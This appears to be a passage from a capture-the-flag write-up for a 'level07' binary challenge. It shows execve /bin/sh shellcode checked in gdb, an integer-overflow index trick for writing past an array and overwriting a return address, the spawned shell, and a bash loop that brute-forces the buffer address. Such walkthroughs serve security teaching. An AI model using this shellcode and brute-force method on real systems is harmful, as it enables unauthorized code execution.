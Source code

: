 ```
Index: 5

Number: 2160921520
Index: 1073741830 (1073741824 + 6 = index 6)
```

Let's verify the shellcode

```
(gdb) x/12i 0xffffd554
   0xffffd554:  nop
   0xffffd555:  xor    %eax,%eax
   0xffffd557:  xor    %ecx,%ecx
   0xffffd559:  xor    %edx,%edx
   0xffffd55b:  xor    %edi,%edi
   0xffffd55d:  xor    %esi,%esi
   0xffffd55f:  push   %edx
   0xffffd560:  push   $0x68732f2f
   0xffffd565:  push   $0x6e69622f
   0xffffd56a:  mov    %esp,%ebx
   0xffffd56c:  mov    $0xb,%al
   0xffffd56e:  int    $0x80
```

The shellcode was successfully inserted now we have to convert the return address into a decimal number and store it at index 114

ffffd554 = 4294956372

```
Number: 4294956372
Index: 1073741938 (1073741824 + 114 = index 114)
 Completed store command successfully
Input command: quit
process 1771 is executing new program: /bin/dash
```

The shellcode was successfully executed, now we have to do the same without `gdb` but because of an offset caused by `gdb` we have to find the new buffer address, in general it's located 8, 16 or 32 bytes after the original one

Let's automate this using bash, we will try every address in a range of 256 starting at `gdb`'s
```bash
#!/bin/bash
for i in $(seq 0 256)
do
    rm -f /tmp/pwn07
    touch /tmp/pwn07
    chmod 777 /tmp/pwn07
    
    echo "store" >> /tmp/pwn07
    echo "834679184" >> /tmp/pwn07
    echo "1073741824" >> /tmp/pwn07
    
    ...
    
    echo "store" >> /tmp/pwn07
    echo "$((4294956372 + $i))" >> /tmp/pwn07
    echo "1073741938" >> /tmp/pwn07

	echo "quit" >> /tmp/pwn07

	(cat /tmp/pwn07; cat) | /home/users/level07/level07

done
```
